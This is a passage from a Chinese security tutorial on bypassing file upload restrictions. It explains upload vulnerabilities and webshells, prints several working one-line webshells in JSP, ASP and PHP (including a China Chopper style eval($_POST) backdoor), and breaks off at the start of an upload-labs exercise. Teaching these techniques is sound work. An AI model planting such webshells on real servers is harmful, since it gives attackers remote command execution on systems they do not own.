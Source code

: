 

# 论文件上传绕过的各种姿势 - 先知社区

论文件上传绕过的各种姿势

- - -

先来介绍下文件上传漏洞  
**一。什么是文件上传漏洞**

> Web 应用程序通常会有文件上传的功能，例如在 BBS 发布图片 , 在个人网站发布 ZIP 压缩 包，在办公平台发布 DOC 文件等 , 只要 Web 应用程序允许上传文件，就有可能存在文件上传漏洞

**二。什么样的网站会有文件上传漏洞**

> 大部分文件上传漏洞的产生是因为 Web 应用程序没有对上传文件的格式进行严格过滤 , 还有一部分是攻击者通过 Web 服务器的解析漏洞来突破 Web 应用程序的防护，后面我们会讲 到一些常见的解析漏洞，最后还有一些不常见的其他漏洞，如 IIS PUT 漏洞等

**三。文件上传漏洞的危害**

> 上传漏洞与 SQL 注入或 XSS 相比 , 其风险更大 , 如果 Web 应用程序存在上传漏洞 , 攻击者甚至可以直接上传一个 webshell 到服务器上  
> 
> - - -

关于**webshell**

> webshell 是以 asp、php、jsp 等网页文件形式存在的一种命令执行环境，也称其为一种网页后门。一般说来，当 Hacker 入侵一个网站后，会把这些 asp、php 木马的后门文件放在该网站的 web 目录中，和正常的网页文件混杂，其命名可能和正常的文件命名很类似，让人无法第一眼通过文件名判断其为后门文件。然后呢，他就可以利用 web 请求的方式，用 asp 或者 php 木马后门控制网站服务器，包括上传下载文件、查看数据库、执行任意程序命令等一系列操作。

**webshell**的分类

> 1.根据文件大小分类：大马和小马 (通常指的是一句话木马，能够使用菜刀这类工具去直接连接它)  
> 2.根据脚本名称分类：jsp、asp、aspx、php

几种经典的**webshell:**

1）jsp 的简单的 webshell:

```plain
<%Runtime.getRuntime().exec(request.getParameter("i"));%>
```

2）asp 的简单的 webshell:

```plain
success!!!!<%eval request("cmd")%>
```

3）php 的简单的 webshell:

-   php 经典一句话：`<?php echo shell_exec($_GET['cmd']);?>`
    
    -   中国菜刀：`<?php @eval($_POST['自定义密码']);?> 然后连接菜刀就能直接进服务器了`
    
    好了介绍完这些就开始做题吧 (。・∀・) ノ，
    
    - - -
    

**Less-1**  
[![](assets/1698897315-012463d3537f5c536181dcd81201aad3.png)](http://img-blog.csdnimg.cn/2019080418580531.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNTMxNjY5,size_16,color_FFFFFF,t_70)  
先在本地新建一个 webshell 文件，然后上传 webshell 发现失败  